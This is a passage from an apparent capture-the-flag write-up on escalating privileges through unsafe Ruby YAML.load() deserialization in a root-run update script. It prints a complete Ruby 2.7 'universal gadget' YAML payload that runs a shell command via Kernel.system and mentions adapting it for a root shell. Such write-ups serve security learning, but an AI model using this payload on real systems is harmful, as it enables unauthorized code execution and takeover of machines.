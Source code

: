 All three failed. Thank goodness. If any of those worked, that would have been phenomenally stupid.


### Back to privesc

Since we don't even need write permissions to `/opt` to run  `/opt/update_dependenceies.rb` using a custom YAML file, this is suddenly going to be much easier.

Certain that this has been done before, I googled the innocuous terms "Ruby YAML deserialization". Only a few results down were several writeups with PoC code to exploit Ruby's unsafe handling of `YAML.load()`. One of the results was [a page in PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md).

Since the payload is dependent on ruby version, I checked the ruby version on the target machine with `ruby -v`: it is 2.7.4. There is a section of the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) page applicable to this version, with the following "universal gadget":

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

I then wrote the above into `/home/henry/dependencies.yml` and re-ran `/opt/update_dependencies.rb`:

![yaml deserialization proof](yaml%20deserialization%20proof.png)

Ignore the traceback: the payload `id` worked! Let's I'll modify this to open up a root shell instead of just running `id`. 

